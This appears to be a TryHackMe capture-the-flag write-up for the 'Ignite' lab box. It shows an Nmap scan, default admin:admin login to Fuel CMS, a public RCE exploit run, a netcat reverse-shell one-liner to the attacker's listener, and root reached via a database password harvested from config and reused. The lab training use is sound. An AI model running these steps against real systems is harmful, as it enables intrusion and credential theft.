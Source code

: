 # THM - Ignite

### Ip: 10.10.181.250
### Name: Ignite
### Rating: Easy

------------------------------------------------

![thm_ignite_pic.png](../assets/ignite_assets/ignite_pic.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.250
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-19 16:05 CST
Nmap scan report for 10.10.181.250
Host is up (0.13s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.63 seconds
```

Looking at the page on port 80 wee see it is running Fuel cms v 1.4.

thm_ignite_site.png

We also notice that Nmap found a robots.txt page with the `/fuel` endpoint.

Heading to that page we find a simple login:

thm_ignite_login.png

We find we can login with `admin:admin`

thm_ignite_in.png

Looking for exploits I find: https://www.exploit-db.com/exploits/50477

### Exploitation

We can fire the exploit, with no changes needed to the code, with:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ python exploit.py -u http://10.10.181.250     
[+]Connecting...
Enter Command $whoami
systemwww-data


Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Which gives us a pseudo shell to work with, even if it is a bit wonky.

Let's issue a reverse shell one-line and catch a proper shell:

```
Enter Command $busybox nc 10.6.72.91 443 -e /bin/bash
```

This catches a shell back in our listener:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.250] 51170
hostname
ubuntu
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
```

One the shell is fully stabilized we can grab the first flag:

thm_ignite_user.png

### Privilege Escalation

Browsing the system looking for config files, we find an interesting password in the database.php file:

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<SNIP>
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
```

Fortunately for us, this password was reused by root on the target, and we can use it to `su -` and drop into a root shell, where we can then grab the final flag:

thm_ignite_root.png

Thanks for following along!

-Ryan

-----------------------------------------------
